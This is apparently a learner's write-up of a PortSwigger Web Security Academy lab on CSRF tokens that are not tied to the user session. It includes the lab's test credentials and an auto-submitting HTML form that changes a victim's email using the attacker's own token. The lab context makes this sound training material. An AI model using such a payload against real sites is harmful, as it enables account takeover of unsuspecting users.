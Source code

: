 # [Lab: CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)

## Lab

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

## Analysis

the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

it's mean that i can use my token to generate csrf poc.

## Solutions

my account's csrf token:

```html
<html>
  <body>
    <form action="https://id.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked@gmail.com" />
      <input type="hidden" name="csrf" value="h5WnPpnDNs3XnrBEp0oCpB8KEQ1mjY7t" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```
